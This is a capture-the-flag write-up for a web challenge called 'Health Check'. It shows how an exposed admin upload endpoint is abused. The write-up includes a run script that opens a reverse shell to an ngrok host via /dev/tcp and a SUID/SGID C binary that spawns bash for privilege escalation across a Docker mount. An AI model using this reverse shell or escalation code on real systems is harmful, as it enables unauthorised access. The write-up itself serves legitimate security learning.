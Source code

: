 # Health Check

## Description

Web | 32 solves

> Want to know whether the challenge is down or it's just your network down? Want to know who to send a message when you want to contact an admin of some challenges? Take a look at our "fastest" Health Check API in the world!
>
> Warning: Do not violate our CTF rules.
>
> Author: chiffoncake

## Solution

### Health Check 1

Visiting the webpage, we could guess through the response headers that the server was using FastAPI. We could download `openapi.json` to see the available endpoints.

````json
 "/new": {
            "post": {
                "summary": "Create Problem",
                "description": "**This endpoint is only for admin. Do NOT share this link with players!**\n\nUpload the health check script to create a new problem. The uploaded file should be a zip file.\nThe zip file should NOT have a top-level folder. In the folder, you must place an executable (or a script) named `run`. You may put other files as you want.\nBelow is an example output of `zipinfo myzip.zip` of a valid `myzip.zip`:\n\n```\nArchive:  myzip.zip\nZip file size: 383 bytes, number of entries: 2\n-rwxrwxr-x  3.0 unx       84 tx defN 22-Aug-20 19:53 run\n-rw-rw-r--  3.0 unx        8 tx stor 22-Aug-20 19:53 my-env\n2 files, 92 bytes uncompressed, 89 bytes compressed:  3.3%\n```\n\nBelow is an example output of an invalid zip (because it has a top-level folder):\n\n```\nArchive:  badzip.zip\nZip file size: 553 bytes, number of entries: 3\ndrwxrwxr-x  3.0 unx        0 bx stor 22-Aug-20 19:55 badzip/\n-rw-rw-r--  3.0 unx        8 tx stor 22-Aug-20 19:55 badzip/myenv\n-rwxrwxr-x  3.0 unx       84 tx defN 22-Aug-20 19:55 badzip/run\n3 files, 92 bytes uncompressed, 89 bytes compressed:  3.3%\n```\n\nEvery 30 seconds, the server will spawn a new process, cd into your folder, and run `./run`. Your `./run` should create `./status.json` to store the health check result, which will be returned when the players request for the status of this problem.\nIf you have any question, please contact @chiffoncake.",
                "operationId": "create_problem_new_post",
                "requestBody": {
                    "content": {
                        "multipart/form-data": {
                            "schema": {
                                "$ref": "#/components/schemas/Body_create_problem_new_post"
                            }
                        }
                    },
                    "required": true
                },
                
                ...
````

We could see the following description for the `/new` endpoint.

> **This endpoint is only for admin. Do NOT share this link with players!**
>
> Upload the health check script to create a new problem. The uploaded file should be a zip file.
>
> The zip file should NOT have a top-level folder. In the folder, you must place an executable (or a script) named `run`. You may put other files as you want.\
> \
> ...

Indeed, we could upload a zip file containing a `run` bash script that gives us a reverse shell.

```bash
#!/bin/sh

bash -c "bash -i >& /dev/tcp/8.tcp.ngrok.io/18920 0>&1"
```

The first flag was readable by the `nobody` user.

### Health Check 2

From our reverse shell, we could see the source code.

```python
import asyncio, os, pathlib, shutil, traceback
from flag1 import flag1

RM_INTERVAL = 20 * 60
HEALTH_CHECK_INTERVAL = 30

data_path = pathlib.Path('data')
backup_path = pathlib.Path.home() / 'backup'


async def background_task1():
    while True:
        await asyncio.sleep(RM_INTERVAL)
        for path_name in data_path.iterdir():
            try:
                shutil.rmtree(path_name)
            except:
                traceback.print_exc()


async def background_task2():
    while True:
        timer = asyncio.create_task(asyncio.sleep(HEALTH_CHECK_INTERVAL))
        processes = {timer}
        for path_name in data_path.iterdir():
            if not path_name.is_dir():
                continue
            async def run(path_name):
                try:
                    if 'docker-entry' in os.listdir(path_name):
                        # experimental
                        await asyncio.create_subprocess_shell(f'sudo chmod -R a+rwx {path_name}; cd {path_name}; chmod a+x ./docker-entry; docker run --rm --cpus=".25" -m="256m" -v=$(realpath .):/data -u=user -w=/data sandbox /data/docker-entry')
                    else:
                        await asyncio.create_subprocess_shell(f'sudo chmod -R a+rwx {path_name}; cd {path_name}; sudo -u nobody ./run')
                except:
                    pass
            processes.add(asyncio.create_task(run(path_name)))

        await asyncio.wait(processes)


if __name__ == '__main__':
    try:
        os.mkdir('data')
    except FileExistsError:
        pass

    async def run():
        os.chmod('flag1.py', 0o440)
        os.chmod('flag2', 0o440)
        os.chmod('data', 0o711)
        asyncio.create_task(background_task1())
        await background_task2()

    asyncio.run(run())
```

We could clearly see that if the zip file name contains `docker-entry`, then instead of running the script as the `nobody` user, we get a shell within a Docker container that has the current directory mounted to `/data`.

```python
if 'docker-entry' in os.listdir(path_name):
    # experimental
    await asyncio.create_subprocess_shell(f'sudo chmod -R a+rwx {path_name}; cd {path_name}; chmod a+x ./docker-entry; docker run --rm --cpus=".25" -m="256m" -v=$(realpath .):/data -u=user -w=/data sandbox /data/docker-entry')
else:
    await asyncio.create_subprocess_shell(f'sudo chmod -R a+rwx {path_name}; cd {path_name}; sudo -u nobody ./run')
```

Let's take a step back - we now have a way of gaining a shell _both inside and outside_ of the Docker container. The shell inside the container has higher privileges than the one outside (the one inside runs as the `uploaded` user, while the one outside runs as the `nobody` user).

I compiled a binary that sets the effective user and group IDs to that of the SUID and SGID permissions, then compiled it and gave it SUID and SGID permissions with `chmod u+s exp` and `chmod g+s exp`.

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
#include <errno.h>

int main()
{
    int t;
    printf("before, geteuid() returned %d\n", geteuid());
    printf("before, getuid() returned %d\n", getuid());

    t = setuid(geteuid());
    if (t < 0) {
        perror("Error with setuid() - errno " + errno);
        exit(1);
    }

    printf("before, getegid() returned %d\n", getegid());
    printf("before, getgid() returned %d\n", getgid());
    
    t = setgid(getegid());
    if (t < 0) {
        perror("Error with setgid() - errno " + errno);
        exit(1);
    }

    printf("after, geteuid() returned %d\n", geteuid());
    printf("after, getuid() returned %d\n", getuid());

    printf("after, getegid() returned %d\n", getegid());
    printf("after, getgid() returned %d\n", getgid());

    setreuid(geteuid(), geteuid());
    setregid(getegid(), getegid());

    printf("finally, geteuid() returned %d\n", geteuid());
    printf("finally, getuid() returned %d\n", getuid());

    printf("finally, getegid() returned %d\n", getegid());
    printf("finally, getgid() returned %d\n", getgid());

    printf("did work fine, look who I am:\n");
    system("/bin/bash -c whoami");
    system("/bin/bash");
}
```

This gives us the flag!

<figure><img src="../../.gitbook/assets/Screenshot 2022-09-04 at 11.45.12 AM.png" alt=""><figcaption></figcaption></figure>
